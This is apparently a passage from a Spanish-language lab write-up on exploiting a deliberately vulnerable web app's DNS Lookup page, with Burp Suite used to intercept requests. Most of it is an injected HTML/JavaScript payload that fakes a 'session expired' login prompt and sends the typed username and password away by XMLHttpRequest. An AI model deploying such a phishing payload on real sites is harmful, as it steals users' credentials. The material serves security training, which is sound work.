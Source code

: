 ```html
					theForm.parentNode.style.display="none";
				}// end if
			};

			lXMLHTTP.open(lMethod, lAction, true);
			lXMLHTTP.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
			lXMLHTTP.send(lData);
		}catch(e){
			alert(e.message);
		};
		alert('Thanks! You may continue now.');
		document.getElementById('modal').setAttribute('style', '');
	};//end function
	</script>
	<form>
		<table style="font-weight:bold;">
			<tbody><tr><td colspan="2" style="font-size:20px;">Sorry! Your session has expired.<br><br>Please login again.</td></tr>
			<tr><td colspan="2">&nbsp;</td></tr>
			<tr><td>Username</td><td><input name="username" type="text"></td></tr>
			<tr><td>Password</td><td><input name="password" type="password"></td></tr>
			<tr><td colspan="2" style="text-align:center;"><input type="button" onclick="javascript:capture(this.form);" value="      Submit      "></td></tr>
		</tbody></table>
	</form>
</div>
```

Ahora nos volvemos a nuestro `DNS Lookup`, ponemos la palabra por ejemplo `canario` y con `Burp Suite` a la escucha enciamos la peticion para que la capture `Burp Suite`:

<figure><img src="../../../.gitbook/assets/image (87) (1).png" alt=""><figcaption></figcaption></figure>
